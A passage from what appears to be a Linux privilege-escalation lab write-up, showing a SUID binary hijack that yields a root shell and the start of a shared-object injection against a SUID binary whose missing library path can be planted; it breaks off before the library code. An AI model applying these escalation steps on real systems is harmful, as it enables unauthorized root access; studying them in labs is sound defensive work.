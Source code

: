 ```
student@attackdefense:~$ ls
welcome
student@attackdefense:~$ cp /bin/bash greetings
student@attackdefense:~$ ls
greetings  welcome
student@attackdefense:~$ ./greetings
student@attackdefense:~$
student@attackdefense:~$ ./welcome
root@attackdefense:~# whoami
root
root@attackdefense:~#
```

**Example 3**
we exampline binary named 'suid-so' using strings and found a string '/home/user/.config/libcalc.so', further we found that '.config' file dosent even exist in this directory, we can take advantage of this thing, we can create this directory and write our own code for `libcalc.so`, we write our code in libcalc.c and then compile it to get file libcalc.so

```
TCM@debian:/tmp$  find / -type f -perm -04000 -ls 2>/dev/null

809081   40 -rwsr-xr-x   1 root     root        37552 Feb 15  2011 /usr/bin/chsh
812578  172 -rwsr-xr-x   2 root     root       168136 Jan  5  2016 /usr/bin/sudo
810173   36 -rwsr-xr-x   1 root     root        32808 Feb 15  2011 /usr/bin/newgrp
812578  172 -rwsr-xr-x   2 root     root       168136 Jan  5  2016 /usr/bin/sudoedit
809080   44 -rwsr-xr-x   1 root     root        43280 Jun 18  2020 /usr/bin/passwd
809078   64 -rwsr-xr-x   1 root     root        60208 Feb 15  2011 /usr/bin/gpasswd
809077   40 -rwsr-xr-x   1 root     root        39856 Feb 15  2011 /usr/bin/chfn
816078   12 -rwsr-sr-x   1 root     staff        9861 May 14  2017 /usr/local/bin/suid-so
816762    8 -rwsr-sr-x   1 root     staff        6883 May 14  2017 /usr/local/bin/suid-env
816764    8 -rwsr-sr-x   1 root     staff        6899 May 14  2017 /usr/local/bin/suid-env2
815723  948 -rwsr-xr-x   1 root     root       963691 May 13  2017 /usr/sbin/exim-4.84-3
832517    8 -rwsr-xr-x   1 root     root         6776 Dec 19  2010 /usr/lib/eject/dmcrypt-get-device
832743  212 -rwsr-xr-x   1 root     root       212128 Apr  2  2014 /usr/lib/openssh/ssh-keysign
812623   12 -rwsr-xr-x   1 root     root        10592 Feb 15  2016 /usr/lib/pt_chown
473324   36 -rwsr-xr-x   1 root     root        36640 Oct 14  2010 /bin/ping6
473323   36 -rwsr-xr-x   1 root     root        34248 Oct 14  2010 /bin/ping
473292   84 -rwsr-xr-x   1 root     root        78616 Jan 25  2011 /bin/mount
473312   36 -rwsr-xr-x   1 root     root        34024 Feb 15  2011 /bin/su
473290   60 -rwsr-xr-x   1 root     root        53648 Jan 25  2011 /bin/umount
465223  100 -rwsr-xr-x   1 root     root        94992 Dec 13  2014 /sbin/mount.nfs
```
Lets utilize strings to display a list of useful strings found in the binary.
```
TCM@debian:~$ `strings /usr/local/bin/suid-so`
/lib64/ld-linux-x86-64.so.2
#eGVO
CyIk
libdl.so.2
__gmon_start__
_Jv_RegisterClasses
dlopen
libstdc++.so.6
_ZNSt8ios_base4InitD1Ev
_ZNSolsEPFRSoS_E
__gxx_personality_v0
/home/user/.config/libcalc.so
Done.
Y@-C
```
Cross checking the `libcalc.so` directory on the user’s home directory showed that, the `.config` directory doesn’t even exist.
```
```
